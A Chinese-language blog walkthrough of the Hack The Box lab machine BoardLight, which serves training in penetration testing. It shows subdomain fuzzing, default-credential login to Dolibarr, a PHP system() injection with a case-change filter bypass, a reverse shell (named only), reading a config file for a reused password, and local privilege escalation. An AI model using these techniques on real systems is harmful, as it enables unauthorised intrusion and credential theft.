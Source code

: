 ```yaml
---
title: Hack The Box BoardLight
description: Hack The Box BoardLight 靶机 WP
pubDate: 09 24 2024
image: https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-8.webp
categories:
  - 网络安全
tags:
  - 靶场
  - 渗透测试
---
```


Hack The Box BoardLight 靶机

靶机IP：10.10.11.11

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-1.webp)

## Web 渗透

放 Goby 里扫描

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-5.webp)

发现开启 80 端口，查看 Web 页面

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-2.webp)

发现一个域名

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-3.webp)

```shell
board.htb
```

放进 Host 解析

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-4.webp)

fuzz 一下子域名

```shell
.\wfuzz.bat -c -w "E:\Crack\Red_Team\Dict\SecLists\Discovery\DNS\subdomains-top1million-5000.txt" -u "http://board.htb/" -H "Host: FUZZ.board.htb"
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-6.webp)

把 517 过滤掉

```shell
.\wfuzz.bat -c -w "E:\Crack\Red_Team\Dict\SecLists\Discovery\DNS\subdomains-top1million-5000.txt" -u "http://board.htb/" -H "Host: FUZZ.board.htb" --hl 517
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-7.webp)

得到子域名 `crm.board.htb`，添加到 Host 里，访问

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-8.webp)

得到一个 CMS 的登录界面，CMS 为 `Dolibarr 17.0.0`，查找默认密码

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-9.webp)

可登录

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-10.webp)

发现可以添加网页

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-11.webp)

那就简单了，创建页面 abc

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-12.webp)

创建时提示

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-13.webp)

Website 是定时删除的，这里注意一下。重新创建，编辑 HTML 源，添加命令检查一下能不能执行

```shell
<?php echo system("whoami");?>
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-14.webp)

额，禁止动态命令？大小写绕一下试试？

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-15.webp)

可以了。准备一个 php反弹 shell 来反弹就可以了

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-16.webp)

OK 拿到 shell

## 内网渗透

找 flag

```shell
find / -type f -name "user.txt"
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-18.webp)

没有？说明在其他用户里，看看数据库配置里有没有啥信息泄露

```shell
find /var/www/html/crm.board.htb -type f -name "*conf*"
```

发现文件

```shell
/var/www/html/crm.board.htb/htdocs/conf/conf.php
```

得到一个用户账号密码

```shell
dolibarrowner/serverfun2$2023!!
```

主机上有这个用户吗？

```shell
cat /etc/passwd
```

没有，看看 Home 下面到底有几个用户

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-19.webp)

有一个 `larissa`。试试登录一下 `larissa/serverfun2$2023!!`

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-20.webp)

登录进来了，找 flag

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-21.webp)

又到了喜闻乐见的 Linux 提权环节

用 `linux-smart-enumeration` 试试。

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-22.webp)

DirtyPipe？试试

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-23.webp)

失败了……看看linPEAS 能出啥

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-24.webp)

额……大差不差，都用不了。然后下面也没啥东西了。然后看见 `enlightenment` 标红。

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-25.webp)

桌面？

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-26.webp)

好了，找 exp 直接利用就行了

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-27.webp)

成功。拿到 flag

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-28.webp)
